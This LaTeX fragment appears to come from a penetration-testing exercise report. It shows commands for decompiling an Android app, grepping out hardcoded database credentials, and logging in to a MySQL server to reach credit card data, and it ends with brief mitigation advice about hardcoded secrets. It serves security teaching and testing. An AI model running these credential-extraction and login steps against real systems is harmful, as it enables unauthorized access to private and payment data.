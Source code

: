 \documentclass[notitlepage]{article}
\begin{document}
  	\subsubsection*{Confirmation method}
  	First download the apk file as follows
\begin{verbatim}
wget www.artstailor.com/apps/ArtsTailorNews.apk
\end{verbatim}
    Open the application and jadx-gui and then navigate to the cache created after the application is compiled.
    Once inside the cache, run the following command to get the username and password
\begin{verbatim}
cat sources/00/000000800.java | grep -e 'b64username' -e 'b64password'
\end{verbatim}
    This will reveal the following censored credentials.
\begin{verbatim}
username: db_user_token
password: KEY022-uid...CQ==
\end{verbatim}
    Lastly, we can use these credentials to gain access to the server
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_user_token -p
KEY022-uid...CQ==
\end{verbatim}
    From previous Exercise 110, we also have some admin credentials as follows
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_admin_token -p
KEY019-8Dq...e\n
\end{verbatim}
    Using these credentials gives us access to user credit card information. 
    \subsubsection*{Mitigation or Resolution Strategy}
    To mitigate this, we can firstly avoid hardcoding any sort of credentials into the code. You should also try to use 
    secure storage solutions that provide more hardware-backed storage options for keys rather than including them in the code.
    Now that this has been exploited, make sure to also change the credentials for the db{\_}user{\_}token.

\section{Attack Narrative}
    
\end{document}
